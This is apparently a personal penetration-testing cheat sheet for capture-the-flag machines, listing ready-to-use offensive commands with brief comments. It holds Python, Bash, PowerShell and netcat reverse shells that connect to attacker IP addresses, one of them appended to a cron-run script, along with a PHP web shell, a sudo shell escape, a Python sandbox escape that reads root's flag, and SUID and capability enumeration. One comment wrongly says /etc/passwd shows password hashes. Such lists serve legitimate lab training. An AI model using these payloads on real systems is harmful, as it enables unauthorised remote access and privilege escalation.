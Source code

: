 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
python escape characters:
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/

Shows the password hashes on a linux system
```
cat /etc/passwd
```
Shows the groups on a linux system
```
cat /etc/group
```
```
ls -lh /var/mail/
```
```
dpkg -l
```
Check for Suid binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
find a file on a system
```
find / -type f -name user.txt 2>/dev/null
```
```
getcap -r / 2>/dev/null
```
Lists capabilities of binaries
```
getcap -r /
```
Shows user group files
```
find / -type f -group users 2>/dev/null
```
Simple php shell:
```
<?php system($_GET['0xdf']); ?>
```
ssh tunnel:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
list processes and open ports:
```
ps -aux

netstat -an
```
To escape rbash:
```
ssh mindy@10.10.10.51 -t bash
```
```
nmap --script smb-vuln* -p 445 10.10.10.4
```
```
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
```
Bash Reverse Shell:
```
bash -c 'bash -i >& /dev/tcp/192.168.45.5/1234 0>&1'
```
Install searchsploit on parrotOS.
```
sudo apt install exploitdb -y
```
Powershell Reverse Shell:
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
reverse shell for exploitation of a vulnerable file.
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 8443 >/tmp/f' | tee -a monitor.sh
```
Used to help find files in the file share:
```
find /usr/share/ -name zap.sh
```

```
docker run -dit --restart unless-stopped -d -p 8000:8000 -e SPLUNK_START_ARGS='--accept-license' -e SPLUNK_PASSWORD='Super1234' splunk/splunk:latest
```
```
cat /etc/crontab
```
```
find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"
```
